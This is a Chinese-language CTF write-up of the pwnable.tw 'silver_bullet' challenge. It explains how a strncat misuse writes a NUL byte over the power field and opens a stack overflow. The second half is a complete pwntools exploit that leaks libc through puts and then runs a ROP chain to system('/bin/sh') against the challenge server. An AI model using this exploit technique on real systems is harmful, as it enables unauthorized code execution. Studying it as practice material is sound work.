 ```yaml
---
Layout: Post
title: pwnable.tw silver_bullet
date: 2022-08-07 09:28:56
---
```


Off-by-NULL
<!-- more -->

## 功能描述

循环打印一个菜单，可以选择生成子弹、升级子弹、攻击BOSS（成功了才能return）、或者exit(0)
推测子弹结构如下：

```c
typedef struct _Bullet {
    char description[0x30];
    unsigned int power;
}
```

生成子弹和升级子弹时，都会提示输入 `description` ，然后对输入的 `description` 使用 `strlen`，加到 `power` 上。
在升级子弹时，description的大小限制为 `0x30-power`，读取到 `power_up` 的栈帧上。在更新 `power` 后将会用 `strncat()` 将新的 `description` 加到原来的 `description` 之后。

## 漏洞

本题漏洞是对于 `strncat` 的误用。
假设上述 `description` 已经有 0x2f 个字符，那么在 `power_up` 函数中，会限制只能读取一个字符。
然而在复制字符串时，`strncat`不仅会把 `description[0x2f]` 覆盖成该字符，还会把后面的 `description[0x30]` 修改成 `\0`。

也就是说，虽说 `strncat` 有一个大小限制 $n$ 的参数，但这个 $n$ **并不能保证参数中的 `dest` 字符串只有 $n$ 个字符被修改**，而是指**参数中的 `src` 字符串至多有多长**！
在本题中，程序并没有考虑到这一点，因此可以把正好位于 `description[0x30]` 的 `power` 最低位覆盖为 `\0`。如此一来，在下一次 `power_up` 时，我们就可以从 `power` 这个变量开始，输入 0x30 个字符，达成栈溢出攻击。

## 利用

由于只能一次输入，因此我选择泄露libc的 `puts` 之后(打败boss来正常return)，调用 `_start` 重开，在新的一轮中再实施攻击，拿到shell。

exp:

```python
from pwn import *
context.arch='i386'
# context.log_level='debug'

filename="./silver_bullet"
io = process([filename], env={"LD_PRELOAD":"./libc_32.so.6"})
elf=ELF(filename)

libc_name="./libc_32.so.6"
libc=ELF(libc_name)

io = remote("chall.pwnable.tw", 10103)

def dbg():
    g = gdb.attach(io)

def rop(payload):
    io.send(b'1')
    io.recv()
    io.send(b'\xff'*47)
    io.recv()

    io.send(b'2')
    io.recv()
    io.send(b'\xff')
    io.recv()

    io.send(b'2')
    io.recv()
    io.send(b'\xff'*7 + payload) # 之所以这里是7而不是8，因为在strncat的时候power最低位已经有值了，所以只需要用3个字符填充power，4个字符填充saved rbp
    io.recv()

    io.send(b'3')

# leak libc
payload = b''
payload += pack(elf.plt['puts'])
payload += pack(elf.symbols['_start'])
payload += pack(elf.got['puts'])

rop(payload)
mes = io.recvrepeat(5)
pos = mes.find(b'You win !!\n') + len('You win !!\n')
libc_base = unpack(mes[pos:pos+4]) - libc.symbols['puts']

# system('/bin/sh')
payload = b''
payload += pack(libc_base + libc.symbols['system'])
payload += pack(libc_base + libc.symbols['system'])
payload += pack(libc_base + 0x00158e8b) # "/bin/sh"

rop(payload)
io.interactive()
```
